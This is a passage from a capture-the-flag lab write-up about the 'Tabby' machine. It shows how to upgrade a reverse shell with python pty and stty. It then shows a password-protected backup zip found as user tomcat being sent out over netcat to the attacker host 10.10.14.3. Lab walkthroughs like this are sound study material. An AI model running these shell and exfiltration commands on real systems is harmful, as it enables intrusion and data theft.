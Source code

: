 ![[Pasted image 20240301182157.png]]

### Upgrade the Shell

The shell can be upgraded with the following commands:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z # to background the session
stty raw -echo
fg # then [ENTER] x2 
```

---

# 🤯 User Own

I now have a shell on the Apache Tomcat machine as user: `tomcat`. However, I need to find a way to retrieve the user `ash`'s flag. This means enumerating the machine and finding a way to swap users.

Looking around the file system uncovers a file located at `/var/www/html/files` with the file name `16162020_backup.zip` which is owned by `ash` (found using `ls -l`) This file can be copied to elsewhere but then requires a password to unzip it.

\# Backup file requires a password:

![[Pasted image 20240301183745.png]]

## Exfiltrating the file

Before exfiltrating the file, the hash can be checked in order to compare against the one we receieve

\# Getting hash value of orginal file on `tomcat@tabby`:

```
md5sum 16162020_backup.zip
```

\# Start Ncat listener to receive file:

```
nc -lnvp 1500 > 16162020_backup.zip
```

\# Sending the file

```
cat 16162020_backup.zip | nc 10.10.14.3 1500
```

\# Reiving the file on Ncat

![[Pasted image 20240301184603.png]]
